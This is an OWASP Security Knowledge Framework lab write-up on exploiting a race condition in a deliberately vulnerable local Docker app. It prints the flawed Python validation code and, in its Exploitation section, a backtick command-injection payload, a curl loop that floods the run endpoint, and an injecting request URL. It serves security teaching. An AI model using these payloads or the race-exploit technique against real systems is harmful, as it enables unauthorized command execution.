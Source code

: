 # KBID XXX - Race Condition

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:race-condition
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:race-condition
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to ING!](.gitbook/assets/ING_Primary_Logo.png)

## Reconnaissance

#### Step1

{% hint style="success" %}
 Congratulations, you won the race
{% endhint %} 

![](.gitbook/assets/race1.png)


All you need to do now is to add your name to the board and get your price. 

The application shows an input box, where you can insert your username and go to the next screen, clicking "Make it mine".

The application verifies whether the username contains special characaters such as `"` and `\` and erases them. It also applies strict filtering on the text using the following regex:

`[A-Za-z0-9 ]*`

![](.gitbook/assets/race2.png)

If the username is correct, clicking `Boot` will put us on the score board. Yeah!!

![](.gitbook/assets/race3.png)

#### Step 2

This application suffers from a race condition vulnerability, but how can we identify it? 

If we look at the code we see that there are 4 functions being used:

1. `boot_validate(person)` 

	the function receives the username in input and executes the following:
	
	* deletes `"` and `\` from the username
	* opens `hello.sh` file
	* writes a command in it 
	* closes the file
	* logs some useful info 
	* checks if the username is in the format `[A-Za-z0-9 ]*`
	* returns the username if the regex succedes

2. `boot_clean()` that removes all the hello files (`hello.sh` and `hello.txt`)

3. `boot_run()` executes the `hello.sh` file

4. `boot_reset()` resets the system to the default settings

#### Step 3

If we intercept the traffic generate by the app we see that:

* a GET request is issued to validate the username and call `boot_validate(person)`

```text
GET /?person=test&action=validate
```

* clicking boot, will generate the request to execute the `boot_run()` function

```text
GET /?action=run HTTP/1.1
```

The logic behind the application is in the function `start()`. If the action is not `validate` or `reset`, the application runs `boot_run()` executing the `hello.sh` file. 

We also notice that the function `validate(person)` first inserts the command in the `hello.sh` and then validates the input, returning if it is valid or not.

```python

def boot_validate(person):
	#person = person.replace('"',"").replace("\\","")
	bootfile = open("hello.sh","w")
	bootfile.write("echo \"" + person + "\" > hello.txt")
	bootfile.close()

	os.system("echo 'hello.sh updated -- " + str(datetime.datetime.now()) + "' > log.txt")
	valid = os.popen("sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh").read()
	os.system("echo 'hello.sh cleaned -- " + str(datetime.datetime.now()) + "' >> log.txt")
	
	return valid

```

{% hint style="success" %}
 	Everything works fine, so where is the problem?
{% endhint %}

The problem is that in this case, we have a very small window to execute the `boot_run()` function after the input is written in `hello.sh` and just before `return valid` is called. Again, there is a possibility to have a race condition only if the following steps are executed in this order:

1. pass our malicious payload to `boot_validate`
2. write the malicious payload in `hello.sh`
3. call `boot_run()`
4. `return valid` is called



## Exploitation

Before we can exploit the race condition, we need a good payload that will execute the command for us. We know that the double quotes and the backslash cannot be used to break the command, but we also know that using  '`' backtick. 

So our payload will be:

```
`id`

```

in order to execute the command `id` on the target system.

Now we can exploit this sequence to achieve a command injection. In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us: 

```sh
#!/bin/bash
while true; do 

	curl -i -s -k  -X $'GET' \
	    -H $'Host: localhost:5000' -H $'User-Agent: Semen Rozhkov exploiter v1.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate ' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
	    $'http://localhost:5000/?action=run' | grep "Check this out"
done

```

and in the meantime we send the other request from the browser like

```
http://localhost:5000/?person=Default+User`id`&action=validate 
```

If we look in the logs we will see:


![](.gitbook/assets/race4.png)

{% hint style="success" %}
 Congratulations, you won the race for real now!!!!!!!!
{% endhint %} 

## Additional sources

{% embed url="https://www.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)" %}

